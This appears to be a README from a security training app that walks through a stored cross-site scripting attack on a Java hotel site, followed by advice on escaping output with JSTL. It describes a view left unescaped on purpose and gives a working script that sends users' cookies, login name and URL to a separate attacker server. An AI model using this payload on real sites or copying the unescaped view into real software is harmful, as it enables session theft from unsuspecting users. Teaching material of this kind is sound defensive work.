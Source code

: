 Java: XSS
=========

Scenario summary
----------------

The attacker will create an hotel description that has an embedded script that
will send the cookies of a user browsing the web site to the attacker website.

Code change
-----------

In the views, the view `hotel/view.jsp` will not escape the value of the hotel
description.

The *evil-website* server must be deployed for this attack to work.

Scenario description
--------------------

To test whether the injection is possible, write in the description field the
following code:

	<script>alert('hello');</script>

To send the cookies of users to an evil website, set the following code as the
description of an hotel.

	<h3>That hotel!</h3>
	<div id="myHotel">Welcome!</div>
	<script type="text/javascript">
	var data;
	data += "[user: " + $("#login a.btn-primary").text() + "]";
	data += "[url: " + document.location.href + "]";
	data += "[cookie: " + document.cookie + "]";
	var imgsrc = "http://localhost:8081/evilhotel/sendData?data=" + escape(data);
	$("<img />").attr("src", imgsrc).appendTo($("#myHotel"));
	</script>

In the *evil-website* console, the user information should appear.

(Don't forget to change the host with what is needed...)

Preventing the attack
---------------------

*All* data that is printed as HTML must be escaped or at least "white list"
validated.

To escape HTML using JSP, use the available JSTL:

	<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c" %>

	<!-- valid string -->
	<c:out value="${myString}"/>
	<!-- possible injection -->
	${myString}

